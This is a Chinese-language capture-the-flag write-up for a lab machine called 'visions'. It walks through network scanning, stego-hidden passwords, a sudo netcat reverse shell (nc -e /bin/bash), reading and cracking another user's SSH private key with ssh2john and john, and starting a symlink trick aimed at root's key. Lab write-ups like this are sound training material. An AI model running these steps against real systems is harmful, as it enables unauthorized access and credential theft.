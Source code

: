 |   |   |   |
|---|---|---|
|visions|easy|图片隐写、图片调试、exiftool使用、sudo-nc提权、ssh私钥提权、ssh2john使用、john爆破私钥、ssh 私钥利用|
# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.136/24
```
# 服务扫描
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.136 
```
# 目录扫描

右键检查查看源码，猜测是用户名alicia
```C
 http://192.168.44.136/index.html
 
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 

翻译

只有那些能看到无形事物的人才能做到不可能的事情。
你必须能够看到不存在的东西。
只有那些能够看到不可见事物的人才能看到不存在的事物。
-艾丽西亚
```

页面只有个white.png空白图片，猜测是图片隐写
保存下来
查看信息
```C
exiftool white.png
strings white.png

得到： pw:ihaveadream
```
# 提权



```C
┌──(kali㉿kali)-[~/下载]
└─$ ssh alicia@192.168.44.136 //ihaveadream

sudo -l //  (emma) NOPASSWD: /usr/bin/nc
sudo -u emma /usr/bin/nc -e /bin/bash 192.168.44.136 2333
```

新建一个控制台ssh连接，nc监听
```C
nc -lvnp 2333

python3 -c 'import pty;pty.spawn("/bin/bash")'

emma@visions:~$ cat note.txt
cat note.txt
I cant help myself.
emma@visions:/home$ ls
ls
alicia  emma  isabella  sophia
emma@visions:/home$ cd sophia
cd sophia
emma@visions:/home/sophia$ ls
ls
flag.sh  user.txt
emma@visions:/home/sophia$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```
可以看到home目录下还有好多其他用户，这里脑洞较为大，还得回到那张图片white.png
把它复制到windows的world里，图片格式-->矫正-->图片矫正选项-->对比度-56%，就能看到账户密码

>sophia/seemstobeimpossible

获得第一个flag
```C
emma@visions:/home/sophia$ su sophia
su sophia
Password: seemstobeimpossible

sophia@visions:~$ cat user.txt
cat user.txt
hmvicanseeforever

```

读取到ssh私钥
```c
sudo -l //(ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
sudo /usr/bin/cat /home/isabella/.invisible
```

将私钥复制出来编辑到id_rsa，这登录还需要密码，我们使用 **ssh2john** 将 **id_isa** 秘钥信息 转换 为 **john** 可以识别的hash，然后进行爆破,得到密码是invisible
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ vim id_rsa
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh2john id_rsa >> hash  
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

0g 0:00:05:24 0.06% (ETA: 2024-04-23 18:54) 0g/s 33.41p/s 33.41c/s 33.41C/s pink69..findingnemo
invisible        (id_rsa)   
```

```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo ssh -i id_rsa isabella@192.168.44.136  //invisible
```
#  软链接提权

## 这里 sudo 具有root 的权限，sophia 用户具有使用 Sudo 读取 /home/isabella/.invisible 的权限，而现在的 isabella 用户有权限修改 /home/isabella/.invisible。我们尝试创建一条软链接，将.invisiblla文件链接到root的私钥上